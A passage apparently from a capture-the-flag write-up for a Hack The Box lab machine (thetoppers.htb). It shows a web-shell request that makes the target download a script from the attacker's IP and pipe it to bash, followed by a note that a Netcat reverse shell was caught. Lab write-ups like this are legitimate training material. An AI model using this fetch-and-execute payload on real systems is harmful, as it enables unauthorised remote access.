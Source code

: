 {% code overflow="wrap" lineNumbers="true" %}
```bash
http://thetoppers.htb/Shell.php?cmd=curl%2010.10.14.195:4444/shell.sh|bash
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (253) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (255) (1).png" alt=""><figcaption></figcaption></figure>

***

* Finally, I checked the _Netcat_ listener and saw that I had gained a shell from the machine. With that, I could interact with the system more comfortably

<figure><img src="../../.gitbook/assets/image (256) (1).png" alt=""><figcaption></figcaption></figure>
